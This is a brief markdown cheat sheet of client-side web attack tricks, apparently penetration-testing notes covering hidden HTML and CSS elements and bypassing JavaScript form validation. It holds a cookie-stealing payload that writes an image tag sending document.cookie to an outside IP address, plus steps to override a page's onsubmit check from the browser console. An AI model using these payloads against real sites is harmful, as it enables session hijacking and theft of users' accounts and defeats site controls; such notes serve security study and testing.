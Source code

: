 # Client Side


## HTML Comment
- ```--!>```

## CSS Hidden Element
- ```display: none;```
- ```display: hidden;```

## Bypass JS Control
- Stealing Cookie: 
```Javascript
document.write('<img src="http://192.168.8.105/?' + document.cookie + '" />');
```
- Return true
  - Go to page source code
  - Find validation script and copy it 
    - search for ```onsubmit``` 
  - Enable pasting
    - Browser => Console => allow pasting
  - remove ```if clause``` part and paste
```Javascript
function webform_onsubmit () {
return true;
}

```
